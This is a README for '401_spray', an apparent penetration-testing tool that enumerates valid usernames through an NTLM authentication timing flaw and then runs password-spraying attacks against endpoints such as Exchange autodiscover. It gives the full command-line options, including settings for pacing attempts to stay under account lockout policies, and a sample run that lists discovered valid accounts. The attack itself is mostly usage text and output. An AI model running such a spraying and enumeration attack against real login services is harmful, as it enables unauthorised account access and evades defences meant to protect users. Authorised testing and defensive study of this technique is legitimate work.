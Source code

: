 # 401_spray
password spraying tool that will check for username validation using the Microsoft CAS timing vulnerability found on endpoints using NTLM authentication. Original code can be found here: https://github.com/fang0654/401_spraying. 
Simply added the following abilities to the original code:
1) to check your username list for valid entries.
2) Obtain the internal domain name tied to the NTLM Authentication using the WWW-Authenticate Header (Only tried this with one target, your milage may vary).
3) Runs the password spraying attack using usernames identified as valid.
4) Seperates the password spraying attack and username validation using the -v and -c flags. 
5) Added some additional flag options so the user isn't forced to use --threads for example (-t can be used).


```python
usage: 401_spray.py [-h] -u USERNAMES -p PASSWORDS [-d DOMAIN] -U URL [-a ATTEMPTS] [-i INTERVAL] [--authtype {ntlm,basic}] [--proxy PROXY] [-t THREADS] [-o OUTPUT] [--add_response] [-v] [-c]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAMES, --usernames USERNAMES
                        List of usernames to attack
  -p PASSWORDS, --passwords PASSWORDS
                        List of passwords to try
  -d DOMAIN, --domain DOMAIN
                        Domain name to append. If not included, then domains will be assumed to be in username list.
  -U URL, --url URL     URL to authenticate against
  -a ATTEMPTS, --attempts ATTEMPTS
                        Number of attempts to try before sleeping. If your lockout policy is 5 attempts per 10 minutes, then set this to like 3
  -i INTERVAL, --interval INTERVAL
                        Number of minutes to sleep between attacks. If your lockout policy is per 10 minutes, set this to like 11
  --authtype {ntlm,basic}
                        Authentication type - basic or ntlm. Note: You can't use a proxy with NTLM
  --proxy PROXY         Proxy server to route traffic through
  -t THREADS, --threads THREADS
                        Number of threads
  -o OUTPUT, --output OUTPUT
                        File to write successful pairs to
  --add_response        Add response times to output
  -v, --validate_users  Validates the list of usernames. By default will also run password spraying attack.
  -c, --check_creds     Runs the password spraying attack
```

Example output:
```Python
./401_spray.py -v -U https://autodiscover.<target>/autodiscover/autodiscover.xml -p /users/bortiz/Documents/Projects/passwords.txt -u /users/bortiz/Documents/Projects/user_names.txt -t 50 -o /users/bortiz/Documents/Projects/valid_creds.txt -i 60 

New password spraying run
Spraying 1 passwords, then sleeping for 60.
URL: https://autodiscover.<target>/autodiscover/autodiscover.xml
[*] Performing incorrect Domain Test
[+] auth creds: random\aaaaaaz, time elapsed: 0:00:00.384964
[+] auth creds: anything1\bbbbbbz, time elapsed: 0:00:00.372382
[+] auth creds: bread_man\ccccccz, time elapsed: 0:00:04.997914
[*] Performing correct Username & Domain Test
[+] auth creds: domain\Guest, time elapsed: 0:00:00.373984
[+] auth creds: domain\Administrator, time elapsed: 0:00:00.374277
[+] auth creds: domain\krbtgt, time elapsed: 0:00:00.371279
[*] Performing incorrect Username Test
[+] auth creds: domain\aaaaaaz, time elapsed: 0:00:15.357264
[+] auth creds: domain\bbbbbbz, time elapsed: 0:00:10.670948
[+] auth creds: domain\ccccccz, time elapsed: 0:00:15.460272
[+] Avg time: 0:00:13.829495
[*] Threshold: 0:00:08.297697
[+] VALID USER FOUND: domain\user1, time elapsed: 0:00:00.522217
[+] VALID USER FOUND: domain\user2, time elapsed: 0:00:00.404065
[+] VALID USER FOUND: domain\user3, time elapsed: 0:00:00.430944
[+] VALID USER FOUND: domain\user4, time elapsed: 0:00:00.422542
[+] VALID USER FOUND: domain\user5, time elapsed: 0:00:00.411033
[+] VALID USER FOUND: domain\user6, time elapsed: 0:00:00.642477
```
